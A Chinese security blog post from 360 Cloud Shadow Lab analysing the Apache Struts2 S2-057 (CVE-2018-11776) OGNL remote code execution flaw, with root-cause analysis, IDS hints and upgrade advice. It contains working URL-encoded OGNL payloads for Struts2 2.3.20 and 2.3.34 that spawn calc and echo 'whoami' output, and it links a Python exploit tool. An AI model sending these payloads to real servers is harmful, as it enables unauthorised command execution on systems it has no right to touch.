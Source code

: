 **Struts2-057/CVE-2018-11776两个版本RCE漏洞分析（含EXP）**

**Ivan\@360云影实验室**

**2018年08月24日**

0x01 前言
=========

2018年8月22日，Apache Strust2发布最新安全公告，Apache
Struts2存在远程代码执行的高危漏洞（S2-057/CVE-2018-11776），该漏洞由Semmle
Security Research team的安全研究员Man
YueMo发现。该漏洞是由于在Struts2开发框架中使用namespace功能定义XML配置时，namespace值未被设置且在上层动作配置（Action
Configuration）中未设置或用通配符namespace，可能导致远程代码执行。同理，url标签未设置value和action值且上层动作未设置或用通配符namespace时也可能导致远程代码执行，经过笔者自建环境成功复现漏洞且可以执行命令回显，文末有你们想要的
!

0x02 漏洞利用
=============

**笔者搭的环境分别是Strust2 2.3.20 版本和 Strust2
2.3.34版本，漏洞利用大致分为三种方式：数值计算、弹出计算器、 命令回显。**

2.1、数值计算
-------------

数值计算相对最简单，在URL上指定 %{100+200} 就可以发生跳转，得到计算的结果

![](media/94726c86e6004ee27a8dc77d96af4ef2.png)

2.2、弹出计算器
---------------

2.3.20 版本的POC如下：

| /%24%7B%23_memberAccess%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%2C\@java.lang.Runtime\@getRuntime%28%29.exec%28%27calc.exe%27%29%7D/index.action |
|------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/cbda8636cf368f61135ce07397ad16ce.png)

2.3.34 版本参考的POC如下：

| /%24%7B%28%23dm%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28\@com.opensymphony.xwork2.ognl.OgnlUtil\@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23cmd%3D\@java.lang.Runtime\@getRuntime%28%29.exec%28%22calc%22%29%29%7D/index.action |
|-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


![](media/7abe1a9a64e93352939d25c7770b935b.png)

2.3、命令回显
-------------

两个版本都是利用com.opensymphony.xwork2.dispatcher.HttpServletResponse对象去打印命令执行后的回显数据

2.3.20 版本的POC如下：

| /%24%7B%28%23_memberAccess%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23w%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28\@org.apache.commons.io.IOUtils\@toString%28\@java.lang.Runtime\@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action |
|---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


2.3.34 版本的POC如下：

| /%24%7B%28%23dm%3D\@ognl.OgnlContext\@DEFAULT_MEMBER_ACCESS%29.%28%23ct%3D%23request%5B%27struts.valueStack%27%5D.context%29.%28%23cr%3D%23ct%5B%27com.opensymphony.xwork2.ActionContext.container%27%5D%29.%28%23ou%3D%23cr.getInstance%28\@com.opensymphony.xwork2.ognl.OgnlUtil\@class%29%29.%28%23ou.getExcludedPackageNames%28%29.clear%28%29%29.%28%23ou.getExcludedClasses%28%29.clear%28%29%29.%28%23ct.setMemberAccess%28%23dm%29%29.%28%23w%3D%23ct.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29.getWriter%28%29%29.%28%23w.print%28\@org.apache.commons.io.IOUtils\@toString%28\@java.lang.Runtime\@getRuntime%28%29.exec%28%27whoami%27%29.getInputStream%28%29%29%29%29.%28%23w.close%28%29%29%7D/index.action |
|------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|


攻击后效果如下图

![](media/093165b99da65dd906175514be40d3ca.png)

0X03 漏洞分析
=============

在分析漏洞之前，需要配置struts.xml文件，这个文件就是struts2的核心配置文件，大多数的时候增减配置都需要操控这里；

![](media/899737735005243606a63a9e74e0128e.png)

总共两处需要注意，第一处一定要配置struts.mapper.alwaysSelectFullNamespace = true
，否则不能触发漏洞，这个配置的目的是设定是否一直在最后一个斜线之前的任何位置选定NameSpace；第二处result标签返回的类型选择
“ redirectAction 或 chain“ ,
只有这两个配置选项的值是可以将action转发或者重定向；关于type具体可以参考下图

![](media/7292e2ae581bf86a70ab8d07a8060f18.png)

说完了配置，开始动态分析。漏洞位于
struts2-core.jar!/org/apache/struts2/dispatcher/ServletActionRedirectResult.class

![](media/8beae58966835ff61dea31b3bb5675cb.png)

This.namespace这个成员的值来自于getNamespace()方法，再通过getUriFromActionMapping()返回URI字符串；

![](media/3e27519ab12454f4a1d13682c87755bf.png)

通过getUriFromActionMapping获取的值赋给了tmpLocation变量，接着表达式进入setLocation方法

![](media/7a1b9d05e757a111e810363166d8eaa4.png)

再通过super.execute方法调用了ServletActionResult ，
而在execute方法体内跟进了conditionalParse方法，在这个方法内调用了ONGL执行的关键方法translateVariables。

![](media/02bb7f6419984f55f4f77157ca9cf9ae.png)

获得的param值传入到translateVariables()方法内，最终在OnglTextPaser里导致了OGNL表达式执行。

![](media/14b7334b020914ff8aa1788ce23aa34a.png)

![](media/675a1234cda8ccf988e4e751a900e0a5.png)

再弹出计算器后获得lastFinalLocation的值为当前执行后的句柄，这个值作为响应跳转的action地址
，也就是在浏览器中弹出计算器后在地址栏中出现的URI

![](media/a3027e83211837c6b6de145b1eb4584c.png)

到这里弹出计算器的分析到此为止，接下来看下基于命令执行回显结果的分析，基本上流程和上述一样，唯一不同之处lastFinalLocation返回的值是NULL，这也就引发出提交后没有做302的跳转，依旧是当前的action，并且返回的值是200

![](media/33791c224f4b07b693c532c39fbe2860.png)

![](media/e1aca1afc0fc3d10e4e865dc5d96adef.png)

知道了原理后小同事用python实现了自动化利用工具，此工具用途仅供学习研究；

![image.png](media/62cbbac3c4b09ef91758b028481d7fc8.jpg)

0x04 防御措施
=============

1.  将框架版本升级到官方最新版本；

2.  对于Web应用来说，尽量保证代码的安全性；

3.  对于IDS规则层面来说，数值计算和弹计算器返回的状态码都是302，并且Location跳转字段含有特征句柄字符串；如果是命令回显返回的200状态码，且有命令结果输出；

0x05 小结
=========

文章中提及的python EXP下载地址： <https://github.com/Ivan1ee> ；

0x06 参考链接
=============

<https://cwiki.apache.org/confluence/display/WW/S2-057>

<https://lgtm.com/blog/apache_struts_CVE-2018-11776>

<https://blog.csdn.net/madison__/article/details/55671426>
